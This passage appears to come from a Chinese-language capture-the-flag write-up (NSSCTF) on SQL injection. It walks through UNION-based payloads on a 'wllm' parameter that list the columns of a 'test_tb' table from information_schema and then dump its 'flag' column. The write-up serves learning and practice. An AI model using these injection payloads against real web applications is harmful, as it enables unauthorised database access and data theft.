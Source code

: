 发现有两张表，我们查看一下test_tb表中含有哪些列

```sql
/?wllm=2'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='test_tb'--+
```

![image-20250809223551250](nssctf1.assets/image-20250809223551250.png)

正常回显，有id和flag两列，那这个flag里的内容应该就是我们最终所需要的答案了。我们通过select查询语句让它把flag的内容回显。

```sql
/?wllm=2'union select 1,2,flag from test_tb--+
```

![image-20250809223802027](nssctf1.assets/image-20250809223802027.png)

大体框架：库-表-列
